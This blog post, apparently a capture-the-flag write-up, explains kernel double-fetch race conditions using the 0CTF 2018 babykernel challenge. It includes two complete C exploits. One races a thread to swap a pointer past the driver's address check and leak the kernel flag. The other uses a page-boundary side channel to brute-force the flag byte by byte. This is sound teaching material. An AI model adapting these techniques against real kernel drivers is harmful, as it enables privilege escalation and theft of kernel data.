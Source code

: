 ```yaml
---
title: "Introduction of Kernel Exploitations: Double Fetch"
date: 2022-05-19 17:52:21
tags: 
layout: default
---
```


# 0x00 Prologue
I only have little experience with kernel pwn. During the `Intro_to_OS` course, I read a lot of kernel code of `xv6` and learned the kernel systematically. Although `xv6` is a simple system while the `Linux` kernel is much more complex, the knowledge from `xv6` learned helps a lot.

This post would not go too deep into the kernel because I am too weak to do that and I got all the solution ideas from `CTF-wiki`. You can also download the attachments at this [link][1]

# 0x01 Double Fetch

![Double Fetch from CTF-Wiki](/Figures/Kernel/double-fetch.png)

Double fetch is a kind of race condition. Most situation the kernel would get the data from user space by `copy_from_user`. But while dealing with complex data structure, the kernel read the data from user space by a pointer. So there is a race condition:
```c
kernel  : get the data and perform some check
users   : change the data
kernel  : perfrom options to the data
```

# 0x02 Double Fetch Attack

[attachment][2]
According to its start script, it's a multi-process challenge. There is only one function in the device:
```c
__int64 __fastcall domain(__int64 a1, int a2, node *a3)
{
  int i; // [rsp+1Ch] [rbp-54h]

  if ( a2 == 0x6666 )
  {
    printk("Your flag is at %px! But I don't think you know it's content\n", flag);
    return 0LL;
  }
  else if ( a2 == 0x1337
         && !_chk_range_not_ok((__int64)a3, 16LL)
         && !_chk_range_not_ok((__int64)a3->ptr, a3->len)
         && a3->len == strlen(flag) )
  {
    for ( i = 0; i < strlen(flag); ++i )
    {
      if ( a3->ptr[i] != flag[i] )
        return 22LL;
    }
    printk("Looks like the flag is not a secret anymore. So here is it %s\n", flag);
    return 0LL;
  }
  else
  {
    return 14LL;
  }
}
```
The function could leak the address of the flag. And We are asked to give a struct which includes a pointer and a inter which represent its length. Before comparing the given string and the true flag, the program checks if the given address is in current task's memspace, which means we can't provide the address of real flag to bypass the comparation. However, we can use `double fetch` bypass the check and comparation because there is no syncronization to avoid race condition.

The basic idea is 
- Brute force the length of the real flag
- Creat a thread to send valid payload
- The main thread keep modify the ptr to point to the real flag
- Stop when retruning 0

```c
#include <string.h>
char *strstr(const char *haystack, const char *needle);
#define _GNU_SOURCE         /* See feature_test_macros(7) */
#include <string.h>
char *strcasestr(const char *haystack, const char *needle);
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <sys/ioctl.h>
#include <fcntl.h>
#include <pthread.h>
#include <stdint.h>
struct node{
        void * ptr;
        size_t len;
}para;
int f;
int flag = 0;
size_t addr = 0;
void atk_func(void* p)
{   
    struct node *tmp = p;
    while(!flag)
        tmp->ptr = addr;    
}

int main()
{
    f = open("/dev/baby",2);
    ioctl(f,0x6666,0);
    system("dmesg > ./log");
    int log = open("./log",0);
    lseek(log,-58,SEEK_END);
    char buf[0x1000]={0};
    read(log,buf,0x10);
    puts(buf);
    addr = 0;
    
    for(int i =0; i<0x10;i++)
    {
        uint8_t tmp = buf[i]-'0';
        if(tmp>9)
        {
            tmp= buf[i]- 0x61+0xa;
        }
        addr+= tmp;
        if(i==0xf)
            break;
        addr = addr<<4;  
    }
    printf("%p\n",addr);
    para.ptr = buf;
    para.len = 33;
    pthread_t tid;
    pthread_create(&tid,NULL,atk_func,&para);
    int res =0;
    for(int i=0;i<0x10000;i++){
        res = ioctl(f,0x1337,&para);
        para.ptr = buf;
        if(!res)
            break;
    }
    flag=1;
    pthread_join(tid,NULL);
    system("dmesg | grep flag{");
}
```
# 0x03 SileChannel Attack
Also, because the device would compare the string byte by byte so that we can place our payload at the end of page to burte force the password byte by byte. 

```c
#include <string.h>
char *strstr(const char *haystack, const char *needle);
#define _GNU_SOURCE         /* See feature_test_macros(7) */
#include <string.h>
char *strcasestr(const char *haystack, const char *needle);
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <sys/ioctl.h>
#include <fcntl.h>
#include <pthread.h>
#include <stdint.h>
struct node{
        void * ptr;
        size_t len;
}para;
int f;
int main()
{
    f = open("/dev/baby",2);
    struct node n132;
    n132.len = 33;
    char * mem = mmap(0x132000,0x1000,7,0x21,0,0);

    size_t res = 0;
    char *target = "flag{T";
    memcpy(mem+0xfff-strlen(target),target,strlen(target));
    n132.ptr = mem+0xfff-strlen(target);
    for(int i=0;i<0x100;i++){
        mem[0xfff] = i;
        printf("%c\n",i);
        res = ioctl(f,0x1337,&n132);
    }
    
}
```
# 0x04 Summary

These two tricks could be used on kernel string comparation challenges.

[1]: https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/kernel
[2]: https://github.com/n132/attachment/tree/main/0CTF_2018/babykernel

